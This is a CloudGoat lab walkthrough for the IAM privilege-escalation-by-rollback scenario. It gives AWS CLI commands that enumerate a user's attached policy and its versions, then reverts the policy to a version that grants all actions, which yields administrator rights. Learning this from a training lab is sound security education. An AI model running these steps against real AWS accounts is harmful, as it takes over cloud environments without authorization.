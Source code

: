 Configure an AWS profile with the access tokens and perform basic enumeration.
```bash
aws configure --profile cloudgoat

export AWS_PROFILE=cloudgoat

aws sts get-caller-identity
# "Arn": "arn:aws:iam::0123456789:user/raynor-iam_privesc_by_rollback_cgidtm8l3zv490"
```

The ARN contains the username in the after `:user/`, it will be unique in each deployment.
I'll export it as an environment variable to make the cheat sheet clearer. `export IAM_USERNAME=raynor-iam_privesc_by_rollback_cgidtm8l3zv490`


List the policies attacked to the IAM user
```bash
aws iam list-user-policies --user-name $IAM_USERNAME
# None

aws iam list-attached-user-policies --user-name $IAM_USERNAME
# "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
# "PolicyArn": "arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
```

export the ARN to another environment variable `export IAM_POLICY_ARN=arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490`


View the different versions on the IAM policy. This feature allows tracking changes made to the policy.

```bash
aws iam list-policy-versions --policy-arn $IAM_POLICY_ARN
# Shows five versions

aws iam get-policy-version --policy-arn $IAM_POLICY_ARN --version-id v1
# v1 is the default version, the permissions currently granted to the user
```

The policy below is the v1 version, it grants "read" access (list & get) as well as the power to switch between versions of policies.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true
    }
}
```

Looking through the different policy versions `v3` has the following statement.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false
    }
}
```

Breaking this apart it grants all actions (`"Action": "*"`) to all resources. Since the current policy version grants the ability to change versions let switch to use this.

```bash
aws iam set-default-policy-version --policy-arn $IAM_POLICY_ARN --version-id v3
```

We now have **administrative permissions** and have completed the CloudGoat scenario!